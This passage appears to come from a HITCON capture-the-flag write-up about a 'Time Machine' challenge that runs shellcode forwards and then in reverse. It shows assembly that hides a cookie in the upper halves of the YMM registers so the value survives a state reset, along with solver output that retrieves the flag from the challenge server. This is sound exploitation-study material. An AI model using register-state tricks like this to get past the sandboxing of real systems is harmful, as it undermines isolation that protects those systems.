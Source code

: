 Noticeable here is that `xmm_space` doesn't account for `YMM` registers, and while the lower 16-bytes of them are mapped to the same named `XMM` registers the upper 16-bytes are not.

### Shellcode


By using the upper 16-bytes of the `YMM` registers we keep the cookie even through the state reset before it's executed in reverse:


```asm
mov rax, 0x02170000       ; set rax to the cookie
mov rdi, qword [rax]      ; read the cookie
mov [rax], rdi        
mov [rax+16], rdi         ; write the cookie to rax+16 (making it appear in the upper bits of the ymm register)
mov rdi, [rax+16] 
vmovups ymm0,yword [rax]  ; read the yword at rax
vmovups yword  [rax],ymm0
xor rdi, rdi              ; set rdi to 0
mov qword [rax], rdi      ; clear the cookie
mov qword [rax+16], rdi   ; clear the copy of the cookie
mov rax, 0x02170000     

mov eax, 0x3C             ; sys_exit / end of shellcode
syscall
```

In Reverse:

```asm
mov eax, 0x3C

mov rax, 0x02170000       ; set rax to the cookie            
mov qword [rax+16], rdi   ; zero already zeroed memory
mov qword [rax], rdi
xor rdi, rdi
vmovups yword  [rax],ymm0 ; write ymm0 back (xmm0 was reset as such only the upper half is preserved)
vmovups ymm0,yword [rax] 
mov rdi, [rax+16]         ; read the upper copy of the cookie
mov [rax+16], rdi         
mov [rax], rdi            ; write the cookie back to the original position
mov rdi, qword [rax]  
mov rax, 0x02170000 
```


    $ python solve.py 
    [+] Opening connection to 52.192.42.215 on port 9427: Done
    Size of shellcode? (MAX: 2000)

    Reading 49 bytes..

    [+] Receiving all data: Done (123B)
    [*] Closed connection to 52.192.42.215 port 9427
    Shellcode receieved. Launching Time Machine..
    Perfect.
    hitcon{whats happened happened, this is the mechanism of the world}
